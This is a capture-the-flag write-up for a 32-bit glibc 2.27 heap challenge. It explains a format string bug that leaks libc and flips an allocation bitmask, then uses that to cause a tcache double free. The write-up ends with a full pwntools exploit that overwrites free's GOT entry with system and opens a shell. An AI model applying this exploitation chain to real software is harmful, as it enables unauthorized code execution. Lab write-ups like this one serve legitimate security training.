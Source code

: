 We are given 3 files the binary, zip archive with libc and ld and bash script that runs the binary. 
First let's look at the binary in IDA:

<img src="image1.png" width=500 height=500>

Here is the code that simply reads a character and executes a command appropriate to it. But what of v4 variable used for ?
Lets look deep into the function allocate_chunk:

<img src="image2.png">

The function allocate_chunk first reads id,after that it checks if ID bit of v4 is 0 and if it is it reads size and content and sets the chunks[id] to malloc(size).
So v4 is used to check if chunk is freed or used. If the ID bit is set to 0 it is freed and if it's not it is allocated.
Now let's look at the list_chunks_content:

<img src="image3.png">

Function prints all the chunks content with printf passing the chunk address as the first argument and here we have a format string vulnerability. We don't have an arbitary write here because format string isn't on the stack, but address of v4 is. So we can overwrite v4 to get double free.
The glibc2.27 is used in this task, in this version tcache was added. When multiple threads are using heap the heap manager locks the heap while one of threads is using it to avoid errors.So to make the allocations faster peaple made a tcache. A tcache or per thread cache is a bin that is own for each of threads unlike the other bins, so when u are using a tcache heap manager doesn't need to lock a heap and allocations go faster. But there is no security checks in tcache. Since glibc2.27 tcache is used by default, You can read more about tcache here https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/.

Our strategy is pretty simple:
1. we leak the libc using format string vulnerabilitiy.
2. we create two chunks in second chunk is payload to overwrite the v4 with 0b111 (7).
3. free first chunk
4. overwrite the v4
5. free first chunk again
6. overwrite the v4 again
7. free first chunk again
8. allocate chunk with content p32(freegot) to overwrite the bk pointer to freeaddress in got table
9. allocate chunk with content "/bin/sh\x00"
10. allocate chunk with content p32(system)
11. free chunk with /bin/sh

The final exploit:
```python
from pwn import *
cmd = lambda x : p.sendlineafter('4) quit\n>', str(x))
answer = lambda x : p.sendlineafter(': ', str(x))
def allocate_chunk(id, size, content):
	cmd(1)
	answer(id)
	answer(size)
	answer(content)
	p.send('\n')

def delete_chunk(id):
	cmd(3)
	answer(id)
def list_chunks():
	cmd(2)
	return p.recvuntil('\n\n').split('\n')[:-2]
freegot = 0x804b43c
p = process('./df', env={'MALLOC_CHECK_':'0', 'LD_PRELOAD' : "/opt/glibc2.27x86/lib/libc.so.6 /opt/glibc2.27x86/lib/libpthread.so.0 /opt/glibc2.27x86/lib/ld-linux.so.2"})
#p = process('./df')
#p = remote('tasks.open.kksctf.ru', 10000)
libc = ELF('/opt/glibc2.27x86/lib/libc.so.6')
gdb.attach(p)
allocate_chunk(0, 128, '%13$p')
libc_base = int(list_chunks()[0][2:],16)-0x1dba5
system = libc_base+libc.symbols['system']
print 'LIBC leak:', hex(libc_base)
print 'system:', hex(system)
delete_chunk(0)
allocate_chunk(0, 128, 'a'*8)
allocate_chunk(1, 128, '%7c%6$hhn')
delete_chunk(0)
list_chunks()
delete_chunk(0)
list_chunks()
delete_chunk(0)
allocate_chunk(3, 128, p32(freegot))
allocate_chunk(5, 128, '/bin/sh\x00')
allocate_chunk(0, 128, p32(system))
delete_chunk(5)
p.interactive()```

